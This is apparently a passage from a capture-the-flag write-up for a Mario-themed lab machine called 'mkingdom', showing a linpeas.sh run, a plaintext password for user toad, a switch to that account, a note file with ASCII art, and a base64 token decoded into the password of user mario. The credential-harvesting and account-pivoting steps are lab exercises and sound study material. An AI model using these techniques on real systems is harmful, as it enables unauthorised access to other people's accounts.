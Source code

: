   
**run linpeas.sh**

&nbsp;

`![33de2de980b5289e67117639a0403a7d.png](../_resources/33de2de980b5289e67117639a0403a7d.png)`

`found toad password toad password  "toadisthebest"`

`su toad`  
`Password: toadisthebest`  
`toad@mkingdom:/home$ ls`  
`ls`  
`mario toad`  
`toad@mkingdom:/home$ cd toad`  
`cd toad`  
`toad@mkingdom:~$ ls`  
`ls`  
`Desktop Downloads Pictures smb.txt Videos`  
`Documents Music Public Templates`  
`toad@mkingdom:~$ cat smb.txt`  
`cat smb.txt`  
`Save them all Mario!`

&nbsp;                                                                           `                                      \| /`  
                                        `                    ....'''. |/`  
                          `             .'''''' '. \ |`  
                          `             '. .. ..''''. \| /`  
                            `              '...'' '..'' .' |/`  
          `     .sSSs. '.. ..' \ |`  
        ``    .P' `Y. ''' \| /``  
        `    SS SS |/`  
        `    SS SS |`  
        `    SS .sSSs. .===.`  
        ``    SS .P' `Y. | ? |``  
        ``    SS SS SS `==='``  
        `    SS "" SS`  
        `    P.sSSs. SS`  
        ``    .P' `Y. SS``  
        `    SS SS SS .===..===..===..===.`  
        `    SS SS SS | || ? || || |`  
        ``    "" SS SS .===.`==='`==='`==='`==='``  
    `  .sSSs. SS SS | |`  
  `` .P' `Y. SS SS .===.`==='``  
  ` SS SS SS SS | |`  
  `` SS SS SS SS `==='``  
`SSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSSS`

`![04d22717a75613587f8ee84f662ede58.png](../_resources/04d22717a75613587f8ee84f662ede58.png)`

here have  pwd_token=aWthVGVOVEFOdEVTCg==  
<br/>decode base64 ---> ikaTeNTANtES

it also the password of mario 
